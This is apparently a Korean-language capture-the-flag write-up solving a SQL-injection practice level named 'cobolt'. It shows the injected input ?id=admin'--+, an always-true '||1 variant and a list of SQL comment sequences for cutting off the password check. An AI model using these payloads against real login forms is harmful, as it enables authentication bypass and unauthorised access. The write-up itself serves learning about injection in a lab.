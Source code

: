 ## Q2. cobolt _ 다양한 주석 모음
<img src="/photo/prob_02.PNG" width="100%" height="100%" alt="problem"></img>

### 제한 문자: X <br> 문제 사항: 쿼리문 참으로 만들기 
### 해결책

```
현재 쿼리문에서 pw에 md5함수 사용됨
=> pw 이용 X
=> id 변수 뒤를 주석처리해 pw를 제거
```
```diff
# 현재 쿼리문: where id=''--+'
```
```
id가 admin임 나와 있음
=> id 변수에 admin 넣고 주석처리
```
```
해결 쿼리문: where id=''||1--+'
```
### CERT <br> ?id=admin'--+

### 느낀점
```diff
+ 다양한 주석을 배웠다.
+ 1. --+- / -- -
+ 2. # (%23 : url 인코딩)
+ 3. ;%00
+ 4. /* */
```
